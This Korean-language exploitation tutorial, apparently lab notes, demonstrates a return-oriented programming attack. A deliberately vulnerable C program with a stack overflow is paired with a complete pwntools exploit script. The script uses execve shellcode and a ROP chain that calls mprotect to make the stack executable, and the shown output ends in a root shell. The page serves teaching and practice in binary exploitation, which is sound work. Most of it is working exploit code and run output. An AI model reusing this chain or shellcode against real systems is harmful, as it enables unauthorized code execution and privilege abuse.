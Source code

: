 ## **Concept**

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
   
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 256);
}
  
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rsp
0x7fffffffe450:	0x4141414141414141	0x000000000040070a
```

mprotect() 함수를 이용하여 Shellcode가 저장된 메모리 영역의 권한을 rwx로 변경 -> address 값은 페이지 경계에 맞게 정렬되어 있어야 한다.  
mprotect(address of shellcode,0x2000,0x7)

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

binary = ELF('./rop')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
p = process('./rop')
#gdb.attach(p)
p.recvline()

printf_addr = int(p.recvline().split(' ')[3],16)
buf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
mprotect_addr = libBase + libc.symbols['mprotect']
pop_rdi_ret = libBase + 0x00141997
pop_rdx_pop_rsi_ret = libBase + 0x001150c9

shell_area = int(str(hex(buf_addr))[0:11]+'000',16)

print('printf_addr: '+str(hex(printf_addr)))
print('buf_addr: '+str(hex(buf_addr)))
print('shell_area: '+str(hex(shell_area)))

payload = shellcode
payload += "A"*(72-len(shellcode))
# mprotect(shellArea,0x2000,0x7)
payload += p64(pop_rdi_ret)
payload += p64(shell_area)
payload += p64(pop_rdx_pop_rsi_ret)
payload += p64(0x7)
payload += p64(0x2000)
payload += p64(mprotect_addr)
payload += p64(buf_addr)


#raw_input('1')
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[*] '/root/test/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 3650
printf_addr: 0x7f52d5ce1800
buf_addr: 0x7ffef5aa0f20
shell_area: 0x7ffef5aa0000
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect>

